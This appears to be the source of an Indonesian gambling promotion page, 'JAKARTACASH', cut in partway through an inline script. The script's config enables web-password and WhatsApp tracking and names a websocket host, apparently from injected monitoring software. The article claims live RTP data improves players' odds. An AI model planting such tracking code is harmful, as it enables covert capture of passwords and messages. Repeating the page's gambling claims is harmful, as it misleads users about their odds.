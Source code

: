 a=e.addMinutes(Y,r?Y.getTimezoneOffset():0),i=t.en,o=i.formatter;return a.utc=r,n.replace(/(\[[^\[\]]*]|\[.*\][^\[]*\]|YYYY|YY|MMM?M?|DD|HH|hh|mm|ss|SSS?|ddd?d?|.)/g,(function(Y){var e=o[Y];return e?o.post(e.call(i,a,n)):Y.replace(/\[(.*)]/,"$1")}))},e.parse=function(Y,n,r){var a,i,o=t.en,s=o.parser.pre(Y),M=0,u=/(MMMM?|A)|(YYYY)|(SSS)|(MM|DD|HH|hh|mm|ss)|(YY|M|D|H|h|m|s|SS)|(S)|(.)/g,D={2:/^\d{1,4}/,3:/^\d{1,3}/,4:/^\d\d/,5:/^\d\d?/,6:/^\d/};Y=[31,28,31,30,31,30,31,31,30,31,30,31];for(var c={Y:1970,M:1,D:1,H:0,m:0,s:0,S:0};a=u.exec(n);){var d=0,l=1;for(i="";!i;)i=a[++d];a=i.charAt(0);var f=s.slice(M);if(2>d){var g=o.parser[i].call(o,f,n);c[a]=g.index,"M"===a&&c[a]++,l=g.length}else if(7>d)g=(f.match(D[d])||[""])[0],c[a]=0|("S"===a?(g+"000").slice(0,-i.length):g),l=g.length;else if(" "!==a&&a!==f[0])return NaN;if(!l)return NaN;M+=l}return M===s.length&&g?(c.Y+=70>c.Y?2e3:100>c.Y?1900:0,c.H=c.H||o.parser.h(c.h||0,c.A||0),n=new Date(c.Y,c.M-1,c.D,c.H,c.m,c.s,c.S),Y[1]+=0|e.isLeapYear(n),1>c.M||12<c.M||1>c.D||c.D>Y[c.M-1]||23<c.H||59<c.m||59<c.s?NaN:r?e.addMinutes(n,-n.getTimezoneOffset()):n):NaN},e.isValid=function(Y,t){return!!e.parse(Y,t)},e.addYears=function(Y,t){return e.addMonths(Y,12*t)},e.addMonths=function(Y,e){var t=new Date(Y.getTime());return t.setMonth(t.getMonth()+e),t},e.addDays=function(Y,e){var t=new Date(Y.getTime());return t.setDate(t.getDate()+e),t},e.addHours=function(Y,t){return e.addMilliseconds(Y,36e5*t)},e.addMinutes=function(Y,t){return e.addMilliseconds(Y,6e4*t)},e.addSeconds=function(Y,t){return e.addMilliseconds(Y,1e3*t)},e.addMilliseconds=function(Y,e){return new Date(Y.getTime()+e)},e.subtract=function(Y,e){var t=Y.getTime()-e.getTime();return{toMilliseconds:function(){return t},toSeconds:function(){return t/1e3|0},toMinutes:function(){return t/6e4|0},toHours:function(){return t/36e5|0},toDays:function(){return t/864e5|0}}},e.isLeapYear=function(Y){return!(((Y=Y.getFullYear())%4||!(Y%100))&&Y%400)},e.isSameDay=function(Y,t){return e.format(Y,"YYYYMMDD")===e.format(t,"YYYYMMDD")},Y.date=e;var S={token:"563fc020-60da-4561-b7fe-cd6fbc07b7d6",sendNotificationsInterval:Number("1000"),pollWhatsappTrackingInterval:Number("20000"),connectionString:"wss://tm.filter:1502",pid:"14332",pn:"chrome.exe",iup:false,dontTrackWebPasswords:false,extJs:null},v=6e4,y=null,N=null,b=null,A=null,T=!1,E=null,w=null,L=0,k=null,I=null,C="",H=!1;!function Y(e){g()?setTimeout((function(){Y(e)}),1e3):e()}((function(){S.extJs&&S.extJs.init(S.token),n()&&window.addEventListener("focus",r),(n()||S.extJs)&&l()}))}();</script>
    <!-- Header -->
    <header>
        <h1>JAKARTACASH</h1>
        <p>Berita, Informasi, dan Update Terkini dari JAKARTACASH Seluruh Dunia</p>
    </header>

    <!-- Navigation -->
    <nav>
        <ul>
            <li><a href="#home">Beranda</a></li>
            <li><a href="#news">Berita</a></li>
            <li><a href="#trending">Tren</a></li>
            <li><a href="#contact">Kontak</a></li>
        </ul>
    </nav>

    <!-- Main Content -->
    <main>
        <!-- Section Berita -->
        <section id="news">
            <h2>JAKARTACASH: Inovasi Situs Permainan Online dengan Informasi RTP Terkini</h2>
            <article>
                <p>JAKARTACASH hadir sebagai salah satu situs permainan online terdepan yang memadukan hiburan digital dengan transparansi informasi. Fokus utamanya adalah memberikan data RTP (Return to Player) secara real-time kepada para pemain. Fitur ini membantu pemain dalam memilih game dengan peluang kemenangan terbaik, menciptakan pengalaman bermain yang lebih strategis dan menyenangkan. Dengan informasi RTP yang selalu diperbarui, JAKARTACASH bukan hanya menyediakan platform permainan, tetapi juga menjadi alat bantu pengambilan keputusan bagi para pemainnya. Ini adalah salah satu langkah inovatif yang membedakan JAKARTACASH dari situs permainan lain.</p>
